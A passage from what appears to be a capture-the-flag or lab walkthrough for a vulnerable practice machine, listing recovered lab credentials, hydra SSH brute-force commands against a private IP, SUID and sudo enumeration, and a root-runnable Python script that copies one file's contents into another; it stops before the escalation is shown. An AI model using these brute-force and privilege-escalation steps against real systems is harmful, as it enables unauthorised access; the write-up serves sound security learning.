 Below is an updated list of the *working* credentials that I have found so far:

| Username  | Password      |
|-----------|---------------|
| fredf     | B4-Tru3-001     |
| chandlerb | UrAG0D!         |
| joeyt     | Passw0rd        |
| janitor   | Ilovepeepee     |

Also an automated way of doing all of this is storing all of the usernames on seperate lines in a file called *usernames.txt*, then all of the passwords on seperate lines in a file called *passwords.txt*.
Then run the following command:
```bash
# Method 1
hydra -L useranmes.txt -P passwords.txt ssh://192.168.1.10 -t 6

# Method 2
hydra -L useranmes.txt -P passwords.txt -u 192.168.1.10 ssh -t 6
```

I decided to stick with user *fredf* and then ran the following command to find all the files on the machine that had the SUID bit set:
```bash
# Method 1
find / -perm -u=s -type f 2>/dev/null

# Method 2
find / -perm -4000 -type f -ls 2>/dev/null
```

## Meh

So running the following command logged in as fredf we got something interesting:
```bash
sudo -l
```

This returned information that the user *fredf* could run the following command as root:
```bash
(root) NOPASSWD: /opt/devstuff/dist/test/test
```

So then I did some investigating in the */opt/devstuff* directory and found the test.py file.
```python
#!/usr/bin/python

import sys

if len(sys.argv) != 3:
     print("Usage: python test.py read append")
     sys.exit(1)

else:
     f = open(sys.argv[1], 'r')
     output = (f.read())

     f = open(sys.argv[2], 'a')
     f.write(output)
     f.close()
```
